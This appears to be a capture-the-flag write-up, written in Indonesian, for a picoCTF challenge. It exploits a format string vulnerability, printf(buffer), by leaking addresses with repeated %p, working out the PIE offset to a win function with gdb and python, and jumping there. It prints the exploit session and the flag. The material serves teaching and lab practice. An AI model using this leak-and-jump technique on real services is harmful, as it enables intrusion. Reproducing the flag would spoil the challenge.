 Author: Darkraicg492
Description
Can you try to get the flag? I'm not revealing anything anymore!!
Additional details will be available after launching your challenge instance.

Skills gained: Jumping address exploit, format string vurnerability

1. jalankan instance dan masukka nc ke terminal dan download juga file source code dan binarynya
2. ketika menjalankan nc pada terminal, terdapat input untuk memasukkan username dan sesudah itu input lompat address. Sepertinya disini kelemahannya adalah format string vurnerability
3. Buka vuln.c dengan ide atau note apapun
4. ya terdapat jelas kode vurnerability pada

	char buffer[64];
 	printf("Enter your name:");
  	fgets(buffer, 64, stdin);
  	printf(buffer);

5. Kenapa itu bisa menjadi kelemahan/vurnerability disini? karena printf(buffer) tidak melakukan print string secara eksplisit yang seharusnya untuk aman adalah "%s"
6. disini sudah jelas kelemahan dan tujuannya (kita harus lompat ke fungsi win) tapi.. gimana cara mencari address alamat main dan win nya?
7. untuk sekarang Buka binary tersebut dengan ghidra atau cutter atau objdump atau gdb untuk mengecek alamat addres addres ini
	
 	gdb:

		(gdb) disas main

		Dump of assembler code for function main:
   		0x0000555555555400 <+0>:	endbr64
   		0x0000555555555404 <+4>:	push   %rbp
		0x0000555555555405 <+5>:	mov    %rsp,%rbp
   	   	0x0000555555555408 <+8>:	lea    -0x166(%rip),%rsi        # 0x5555555552a9 <segfault_handler>
	   	0x000055555555540f <+15>:	mov    $0xb,%edi
	   	0x0000555555555414 <+20>:	call   0x555555555170 <signal@plt>
	   	0x0000555555555419 <+25>:	mov    0x2bf0(%rip),%rax        # 0x555555558010 <stdout@@GLIBC_2.2.5>
	   	0x0000555555555420 <+32>:	mov    $0x0,%ecx
	   	0x0000555555555425 <+37>:	mov    $0x2,%edx
	   	0x000055555555542a <+42>:	mov    $0x0,%esi
	   	0x000055555555542f <+47>:	mov    %rax,%rdi
	   	0x0000555555555432 <+50>:	call   0x555555555180 <setvbuf@plt>
	 	0x0000555555555437 <+55>:	mov    $0x0,%eax
	  	0x000055555555543c <+60>:	call   0x5555555552c7 <call_functions>
	   	0x0000555555555441 <+65>:	mov    $0x0,%eax
		0x0000555555555446 <+70>:	pop    %rbp
	   	0x0000555555555447 <+71>:	ret

10. alamat untuk main adalah 400, sekarang bagian alamat win nya
	
 	gdb:
	
	 	(gdb) disas win
		Dump of assembler code for function win:
	   		0x000055555555536a <+0>:	endbr64
	   		0x000055555555536e <+4>:	push   %rbp
	   		0x000055555555536f <+5>:	mov    %rsp,%rbp
	   		0x0000555555555372 <+8>:	sub    $0x10,%rsp
	   		0x0000555555555376 <+12>:	lea    0xcf6(%rip),%rdi        # 0x555555556073
	   		...
	   		...

12. oke, alamat untuk win adalah 36a. Alamat win dan mainnya sudah ketemu tapi.. sekarang gimana cara kita melompatinya? untuk melompati ini membutuhkan offset dari pengurangan alamat main dengan alamat win
13. dengan cara
	python3 -c "print(hex(0x0000555555555400 - 0x000055555555536a))"
	hasilnya: 0x96

14. et tapi.. kita harus memastikan dulu apakah alamat win atau main dari nc picoctf ini sama atau beda?, kita bisa memastikan dengan cara mengisi %p sebanyak lebih dari 20 kali (%p ini adalah format hexadecimal memory address)
	hasilnya:
	
	 	Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
		0x5d94123332a1(nil).0x5d94123332dd.0x7ffd34a32430.0x7c.0x7ffd34b20228.0x7ec4492206a0.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e.0x5d940be581c0.0x307e03c48e7fa100.0x7ffd34a32490.0x5d940be58441.(nil).
	 	enter the address to jump to, ex => 0x12345: ^C

13. dan ternyata hasil dari main yang dipanggil dalam nc itu adalah 441 dan bukan 400, sekarang kita mengurangi 441 - 36a
	
		python3 -c "print(hex(0x441 - 0x36a))"             
		hasilnya: 0xd7

14. sesudah itu kita kurangi 441 dengan 0xd7 yang dari nc itu 
	contoh dariku:

		python3 -c "print(hex(0x5e0ab77a2441 - 0xd7))"
		hasilnya: 0x5e0ab77a236a

16. dan hasilnya seperti ini:
	nc rescued-float.picoctf.net 54031
	
 		Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
		0x5e0abd1102a1(nil).0x5e0abd1102dd.0x7ffc19153af0.0x7c.0x7ffc1915e228.0x753d1ff9f6a0.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e.0x5e0ab77a21c0.0xa73378bb7a919100.0x7ffc19153b50.0x5e0ab77a2441.(nil).
 		enter the address to jump to, ex => 0x12345: 
		0x5e0ab77a236a
		You won!
		picoCTF{p13_5h0u1dn'7_134k_1ef23143}

# Flag
flag: picoCTF{p13_5h0u1dn'7_134k_1ef23143}
